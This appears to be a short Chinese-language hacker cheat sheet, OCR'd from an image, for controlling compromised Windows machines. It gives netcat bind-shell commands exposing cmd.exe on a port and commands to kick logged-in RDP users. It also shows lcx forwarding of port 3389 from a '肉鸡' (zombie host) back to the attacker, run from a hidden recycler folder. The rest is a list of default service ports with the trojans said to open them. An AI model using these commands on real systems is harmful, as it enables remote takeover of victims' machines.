 突破最大连接数：mstsc /admin /v:174.139.222.67

query user  查看会话

logoff id号  踢掉

c:\recycler\chu.exe "logoff 1"

nc反弹

路径\nc.exe -l -p 端口 -t -e 路径\cmd.exe

c:\recycler\nc.exe -l -p 1234 -t -e c:\recycler\cmd.exe

nc上传

dos界面下运行:

nc -vv www.baidu.com 80<1.txt

-vv: 回显

80: www端口

1.txt: 就是你要发送的数据包

lcx端口转发

先本地监听51端口 lcx.exe -listen 51 3389

c:\recycler\lcx.exe -slave 自己的ip 51 肉鸡ip 3389    lcx转发

c:\recycler\lcx.exe -slave 222.222.222.222 51 111.111.111.111 3389

常用端口号：
代理服务器常用以下端口：
（1）. http协议代理服务器常用端口号：80/8080/3128/8081/9080
（2）. socks代理协议服务器常用端口号：1080
（3）. ftp（文件传输）协议代理服务器常用端口号：21
（4）. telnet（远程登录）协议代理服务器常用端口：23

http服务器，默认的端口号为80/tcp（木马executor开放此端口）；
https（securely transferring web pages）服务器，默认的端口号为443/tcp 443/udp；
telnet（不安全的文本传送），默认端口号为23/tcp（木马tiny telnet server所开放的端口）；
ftp，默认的端口号为21/tcp（木马doly trojan、fore、invisible ftp、webex、wincrash和blade runner所开放的端口）；
tftp（trivial file transfer protocol ），默认的端口号为69/udp；
ssh（安全登录）、scp（文件传输）、端口重定向，默认的端口号为22/tcp；
smtp simple mail transfer protocol (e-mail)，默认的端口号为25/tcp（木马antigen、email password sender、haebu coceda、shtrilitz stealth、winpc、winspy都
开放这个端口）；
pop3 post office protocol (e-mail) ，默认的端口号为110/tcp；
weblogic，默认的端口号为7001；
webshpere应用程序，默认的端口号为9080；
webshpere管理工具，默认的端口号为9090；
jboss，默认的端口号为8080；
tomcat，默认的端口号为8080；
win2003远程登陆，默认的端口号为3389；
symantec av/filter for mse ,默认端口号为 8081；
oracle 数据库，默认的端口号为1521；
oracle emctl，默认的端口号为1158；
oracle xdb（ xml 数据库），默认的端口号为8080；
oracle xdb ftp服务，默认的端口号为2100；
ms sql*server数据库server，默认的端口号为1433/tcp 1433/udp；
ms sql*server数据库monitor，默认的端口号为1434/tcp 1434/udp；
qq，默认的端口号为1080/udp
